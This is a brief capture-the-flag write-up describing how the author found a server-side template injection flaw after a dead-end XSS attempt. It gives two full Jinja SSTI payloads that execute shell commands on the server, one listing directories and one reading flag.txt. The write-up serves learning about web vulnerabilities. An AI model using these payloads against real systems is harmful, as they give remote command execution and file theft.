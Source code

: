 In this challenge I checked developer tools where i code the link for source code of the webpage. <br>
From there i saw innerHTML had been used, hence i tried using xss payload with alert which gave a positive response. However there was no progress along that track. <br>
<br>
Then putting {{7*7}} into the input box, we get 49 as output, which tells us it is vulnerable to SSTI. Hence gogggling on how to read files from a server using ssti attack, came across the payload 

``` {{request.application.__globals__.__builtins__.__import__('os').popen('ls -R').read()}}```

This gives us a list of all directories which showed the presence of flag.txt. Hence using the below payload gives us the flag.

```{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag.txt').read()}}``` 
